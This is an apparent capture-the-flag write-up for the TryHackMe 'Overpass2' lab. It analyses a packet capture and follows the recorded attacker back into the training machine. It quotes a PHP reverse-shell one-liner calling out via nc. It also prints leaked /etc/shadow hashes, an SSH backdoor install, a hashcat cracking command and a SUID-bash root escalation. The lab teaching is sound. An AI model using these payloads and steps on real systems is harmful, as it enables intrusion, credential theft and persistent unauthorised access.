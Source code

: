 ```yaml
---
layout: default
title: "Overpass2"
tags: TryHackMe
description: "Analyze PCAP file and follow the steps of another attacker to compromise this machine."
---
```


[Overpass2](https://tryhackme.com/room/overpass2hacked) is the seventh machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## PCAP analysis
That is an unusual type of machine for me. We got the `.pcap` file with the network dump.   
There are few ways to work with `.pcap` files if you are do it all the time, you most likely doing it in the terminal with tools like `tshark`.  
If you work with `.pcap` files occasionally, you are probably using the `Wireshark`.   

The official guide is recommending to use the `Wireshark` so let's not play a l33t hackerman this time and obey.  

Download the `.pcap` file to your system and open it with `Wireshark`.  

It might look overwhelming, but it not so hard to get used to it after all.  
If you never worked with `.pcap` files before - it is a format for capturing the network traffic. The first packets will be placed at the top, and you can scroll down the main window to see other packets.    
One of the main features of the `Wireshark` is the ability to `follow streams`. That will transform the content of the file into a more readable format.  
`Wireshark` has tons of features, you should explore it!

The interesting part for us started from the `POST` request to the `/development/upload.php` page. You can use the `Follow HTTP stream` feature to read details.

We can find this command in the body of the `POST` request:
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
The attacker is spawning the reverse shell to the IP address `192.168.170.145` on port `4242`.

We can also notice that the attacker is using `nc` as a communication point, and we know that `nc` transferring all data as a clear text. That means we will be able to read everything that happened on the machine, including all commands, provided passwords, etc.  

You can scroll the dump a bit and follow another stream started from packet number 32. It's a `TCP` packet, so you can use the `Follow TCP Stream` feature of the `Wireshark`.  

```
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

The first thing that the attacker did - upgrade the shell to `Fully Interactive TTY` with `python`.   
The next thing that we can use later is the password for user `james` right in the stream (it's was transferred in a clear text, remember?).  

```
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
```

We can also see that the attacker has the dump of `/etc/shadow`

```
james@overpass-production:~$ sudo cat /etc/shadow

james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```
Feel free to crack those hashes! *wink*  

The attacker also established an `ssh` backdoor:
```
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

That's all we need to know to know.

## Analyze the code  
It's a good idea to clone the repo and look around.

The file `main.go` contains the original hash for the backdoor and hardcoded [salt](https://en.wikipedia.org/wiki/Salt_(cryptography)).  
From the `.pcap` file we know that the attacker used `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed` hash, and from the repo we know that hardcoded salt is `1c362db832f3f864c8c2fe05f2002a05`.
Now you can combine it in the format `hash:salt`, and crack it!  
The syntax for `hashcat`, for instance. You can use other tools if you want.  
```
hashcat -m 1710 -a 0 -o password.txt hash.txt /usr/share/wordlists/rockyou.txt
```

## Get back in!

Now we have everything that might be needed to exploit the machine one more time.  
As we already know all details about the backdoor, so we can use it as a shortcut and not re-exploit the machine from the scratch.   

Note that `ssh` is running not on default port `22`.

```
ssh -p 2222 james@10.10.147.82
```

Use the password that you just cracked to login.  


## PrivEsc

Privilege escalation is simple this time.   
Let's look around:

```
james@overpass-production:/home/james$ ls -la

total 1136
drwxr-xr-x 7 james james    4096 Jul 22 03:40 .
drwxr-xr-x 7 root  root     4096 Jul 21 18:08 ..
lrwxrwxrwx 1 james james       9 Jul 21 18:14 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21 00:36 .cache
drwx------ 3 james james    4096 Jul 21 00:36 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22 03:35 .local
-rw------- 1 james james      51 Jul 21 17:45 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21 00:37 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22 02:57 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22 03:35 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22 03:40 user.txt
drwxrwxr-x 7 james james    4096 Jul 21 01:37 www
```
There is a hidden `.suid_bash` binary with the `SUID` bit!  
You can run it in order to get root, but keep in mind that you will need to specify the `-p` flag to allow the `SUID` bit to affect your privileges.

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
```

## Takeaway
- Ability to analyze dumps and logs can be priceless
- The whole process of going through this machine is like reading a writeup, you can learn a lot from it.
